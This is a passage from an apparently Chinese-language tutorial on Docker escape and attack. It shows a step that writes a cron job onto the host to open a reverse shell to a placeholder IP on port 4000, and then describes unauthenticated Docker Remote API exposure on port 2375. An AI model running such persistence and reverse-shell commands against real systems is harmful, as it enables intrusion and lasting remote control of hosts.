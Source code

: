 [![](assets/1708095739-e8f19862fe30b45460003cc1c59450fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211447-a65dcff4-e5c6-1.png)  
6、写入计划任务到宿主机

```plain
echo '* * * * * bash -i >& /dev/tcp/ip/4000 0>&1' >> /test/var/spool/cron/root
```

## Remote API 未授权访问

docker swarm 中默认通过 2375 端口通信。绑定了一个 Docker Remote API 的服务，可以通过 HTTP、Python、调用 API 来操作 Docker。

### 未授权访问

当使用官方推荐启动方式时

```plain
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```

在没有其他网络访问限制的主机上使用，则会在公网暴漏端口。

